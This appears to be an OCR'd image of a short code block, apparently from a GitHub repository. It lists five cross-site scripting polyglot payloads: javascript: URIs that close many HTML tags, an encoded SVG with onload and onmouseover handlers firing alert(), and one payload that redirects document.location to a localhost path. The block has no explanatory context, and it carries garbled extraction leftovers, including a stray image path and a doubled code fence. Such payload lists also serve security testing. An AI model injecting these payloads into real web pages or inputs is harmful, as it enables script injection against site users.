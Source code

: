 ```
javascript:"/*\"/*/*' /*</template></textarea></noembed></noscript></title></style></script>-->![[data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9Ii8qJmx0O2h0bWwvKi9vbm1vdXNlb3Zlcj1hbGVydCgpLy8iPjwvc3ZnPg==|SVG Image]]
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template><svg/onload='/*--><html */ onmouseover=alert()//'>
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert(test)//'">
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+document.location=`//localhost/mH//'>
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script>
```
```



